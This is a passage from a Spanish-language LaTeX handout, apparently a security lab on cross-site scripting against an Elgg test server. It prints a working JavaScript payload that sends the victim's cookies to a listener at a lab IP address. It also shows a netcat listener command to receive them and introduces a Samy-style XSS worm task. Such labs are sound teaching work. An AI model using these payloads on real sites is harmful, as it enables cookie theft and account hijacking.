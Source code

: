 \begin{lstlisting}
<script>document.write('<img src=http://10.9.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}

Un programa muy utilizado por los atacantes es \texttt{netcat} (o \texttt{nc}), que si se ejecuta con el parámetro the \texttt{"-l"} se convierte en un servidor TCP que escucha en el puerto especificado por ese parámetro. Este servidor imprimirá toda la información que sea enviada por un cliente y envía al cliente lo que escriba el usuario que está corriendo el servidor TCP.
Para poner a la escucha del puerto  \texttt{5555} escriba el comando que se especifica a continuación:

\begin{lstlisting}
$ nc -lknv 5555 
\end{lstlisting}

\noindent El parámetro \texttt{-l} es utilizado por \texttt{nc}  para indicar el puerto que estará a la escucha de conexiones entrantes.
El parámetro \texttt{-nv} es utilizado
por \texttt{nc} para la verbosidad del output. El parámetro \texttt{-k} indica que cuando una conexión se completa, se quedará a la escucha por una nueva.  


\subsection{Tarea 4: Convertirse en Amigo de la Víctima}

En las subsiguientes tareas, estaremos realizando un ataque similar al que fue hecho por Samy en MySpace en el 2005 (Samy Worm). 
Escribiremos un Gusano XSS que agregará como amigo a cualquier usuario que visite el perfil de Samy. Este gusano no va a ser auto-propagable; Lo haremos auto-propagable en la Tarea 6.


En esta tarea, necesitamos escribir un programa JavaScript malicioso que falsifique Requests HTTP directamente desde el navegador de la víctima, sin la intervención del atacante. El objetivo de el ataque consiste en agregar a Samy como amigo de la víctima. Ya hemos creado un usuario llamado Samy
en el servidor {\tt Elgg} (el nombre de usuario es {\tt samy}).

Para poder agregar un amigo a la víctima, primero debemos averiguar cómo es que un usuario agrega un amigo en {\tt Elgg}.
Más específicamente, necesitamos averiguar qué es lo que se envía al servidor cuando un usuario agrega un amigo.
Para este propósito la herramienta \texttt{HTTP} inspection tool de Firefox, puede ayudarnos a obtener esta información, mostrándonos el contenido de cualquier Request HTTP que es enviado desde el navegador. A partir de este contenido podemos identificar todos los parámetros en el request. En la siguiente Sección~\ref{xss:sec:guidelines} se explica cómo utilizar esta herramienta.


